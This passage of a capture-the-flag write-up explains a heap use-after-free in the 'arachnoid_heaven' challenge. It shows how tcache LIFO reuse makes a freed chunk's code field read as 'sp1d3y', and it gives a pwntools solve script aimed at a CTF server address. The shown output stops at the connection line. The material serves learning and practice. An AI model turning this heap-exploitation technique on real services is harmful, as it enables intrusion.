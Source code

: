 To resume this function, it will print the flag if `the_selected_arachnoid->code (initialised with "bad") == "sp1d3y"`. Otherwise, it will print the message "Unauthorised!".


## Exploitation idea

The main goal is to get `an_arachnoid->code == "sp1d3y"`. For this, we can remember that :
- We can't overlow an_arachnoid->code (size of `0x28` and input limited to `0x14` chars)
- We can provoque a double free, but we first need to fill the tcache so the chunks will pop in the fastbin and the double free protection will be only based on the precedent chunk passed to free
- We can have a Use After Free, that's what we are going to exploit!

The idea is: 
- crafting an `arachnoid_A` with a random name 
- freeing this arachnoid
    - free the name (size of `0x28`)
        - goes in tcache bin
    - free the code (size of `0x28`)
        - goes in tcache bin
    - don't set to `NULL` pointers in arachnoids
    - don't decrement arachnoidCouter
- crafting an arachnoid_B
    - `name = malloc(0x28)`
        - will be the same pointer as `arachnoid_A->code` because of LIFO in tcache bin
        - set it to "sp1d3y"
    - `code = malloc(0x28)`
        - will be the same pointer as `arachnoid_A->name` because of LIFO in tcache bin
- `obtain_arachnoid` with index 0 for `arachnoid_A`
    - --> here is the UAF !
    - `arachnoid_A->code == arachnoid_B->name == "sp1d3y"`
- get the flag!!!

## Final solving script

Let's write a little pwntools script:  
```python
from pwn import *

r = remote('167.172.58.213', 31697)
# r = process('./arachnoid_heaven')

# Crafting arachnoid_A with a random name
r.sendlineafter('> ', '1')
r.sendlineafter('Name: ', 'random')

# Deleting arachnoid_A
r.sendlineafter('> ', '2')
r.sendlineafter('Index: ', '0')

# Crafting arachnoid_B with the name "sp1d3y"
r.sendlineafter('> ', '1')
r.sendlineafter('Name: ', 'sp1d3y')

# Obtaining the flag with arachnoid_A
r.sendlineafter('> ', '4')
r.sendlineafter('Arachnoid: ', '0')

# Getting the flag
flag = r.recvall(timeout=1).split(b'\n')[1].decode()
log.success(f"FLAG : {flag}")
```
Let's try it :
```bash
$ python3 solve_arachnoids.py 
[+] Opening connection to 167.172.58.213 on port 31697: Done
```